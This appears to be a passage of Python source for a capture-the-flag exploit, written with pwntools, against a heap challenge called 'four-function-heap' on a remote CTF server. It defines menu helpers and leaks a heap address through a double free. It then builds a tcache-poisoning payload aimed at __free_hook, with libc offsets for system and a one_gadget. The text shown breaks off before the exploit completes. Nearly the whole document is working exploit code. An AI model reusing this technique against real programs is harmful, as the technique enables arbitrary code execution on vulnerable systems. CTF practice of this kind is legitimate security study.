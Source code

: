 ```python
def select(s, sel, c=b"{{prompts.menu}}: "):
    s.recvuntil(c)
    s.sendline(sel)


def create(s, size, data=b"junk", idx=0):
    select(s, b"1")
    s.recvuntil(b": ")
    s.sendline(str(idx))
    s.recvuntil(b": ")
    s.sendline(str(size))
    s.recvuntil(b": ")
    s.send(data)


def show(s, idx=0):
    select(s, b"3")
    s.recvuntil(b": ")
    s.sendline(str(idx))
    res = s.recvline().rstrip()

    return res


def delete(s, idx=0):
    select(s, b"2")
    s.recvuntil(b": ")
    s.sendline(str(idx))


if __name__ == '__main__':
    target = "2020.redpwnc.tf"
    port = 31774
    libc = ELF("./libc-2.27.so")
    system_libc = libc.symbols["system"]
    free_fook_libc = libc.symbols["__free_hook"]
    main_arena_libc = 0x3ebc40
    one_gadget = 0x4f322

    # s = process("./four-function-heap")
    s = remote(target, port)

    # heap leak
    create(s, 0x248)
    delete(s)
    delete(s)
    leak = u64(show(s).ljust(8, b"\x00"))  # count: 4
    print(hex(leak))

    payload = b""

    # tamper counts
    payload += p64(0) * 4
    payload += p64(0xff000000) + p64(0)
    payload += p64(0) * 2

    # tamper entry
    payload += p64(0) * 6
    # after libc leak, this address will be got by malloc(0x78)
    payload += p64(leak - 0x1d8)

    print(hex(len(payload)))
    create(s, 0x248, p64(leak - 0x250))
```